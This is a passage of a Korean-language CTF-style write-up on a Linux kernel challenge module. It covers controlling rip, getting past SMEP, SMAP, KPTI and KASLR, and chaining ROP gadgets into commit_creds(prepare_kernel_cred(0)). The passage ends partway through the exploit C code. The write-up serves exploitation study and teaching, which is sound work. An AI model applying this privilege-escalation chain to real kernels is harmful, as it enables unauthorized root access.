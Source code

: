 이렇게 rip 값을 `0x4343434343434343` 값으로 조절 할 수 있고, 그 후에 rop 를 사용할 수 있게 됐다. 

해당 커널에는 smep, smap, kpti, kaslr 이 걸려있는데, kaslr 은 커널 베이스를 릭했으니 문제될 게 없고, smep과 smap은 커널 영역에서 rop 를 진행할 것이기 때문에 이 역시도 문제될 건 없다. 

## **Exploitation**

 처음에는 `modprobe_path` 를 덮으려고 했으나, 이 커널에는 `modprobe_path`에 대한 심볼이 존재하지 않았다!

 그래서 전통적인 방법인 `commit_creds(prepare_kernel_cred(0))`을 통해 권한 상승을 하기로 하였다.

 다향이도 가젯은 rax 값을 rdi 로 옮길 수 있는 가젯을 찾을 수 있었다. 

```
0xffffffff8133afce: mov rdi, rax; test rbx, rbx; jg 0x53afc0; mov rax, rdi; pop rbx; ret; 
```

다음 가젯은 rax 를 rdi 로 옮기고, rbx 가 0보가 크면 점프를 하고, 아니면 rdi를 rax 값으로 바꾸고 rbx를 pop 한후 리턴하는 가젯이다. 

여기서 우리는 rbx 값을 조절할 수만 있다면 점프를 시키지 않고 위의 코드를 실행할 수 있고, rax의 값을 rdi 의 값으로 바꿀 수 있다!

rbx의 값을 조절 할 수 있는 가젯은 있었다. 

```
0xffffffff81000a76: pop rbx; ret; 
```

마지막으로 `kpti trampoline` 를 써서 유저영역으로 돌아오려고 했으나 그게 잘 안됐다.. 이유는 잘 모르겠지만 swapgs 와 iret 가젯을 직접 찾아 rop 를 수행하니까 정상적으로 잘 작동이 됐다. 

최종 익스플로잇 코드는 다음과 같다. 

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <fcntl.h>
#include <stdint.h>
#include <sys/ioctl.h>
#include <sys/mman.h>
#include <sys/stat.h>

#define SET_MAX_BUFFER 32
#define GET_USERLAND_OFFSET 16
#define DEVICE_NAME "/proc/pwn_device"
#define BUFFER_ADDR 0x11000
#define BUFFER_SIZE 0x6000


uint64_t user_cs;
uint64_t user_ss;
uint64_t user_sp;
uint64_t user_rflags;

void save_state()
{
    __asm__ __volatile__(
        ".intel_syntax noprefix;"
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;"
        ".att_syntax;"
    );
}

void get_flag()
{
```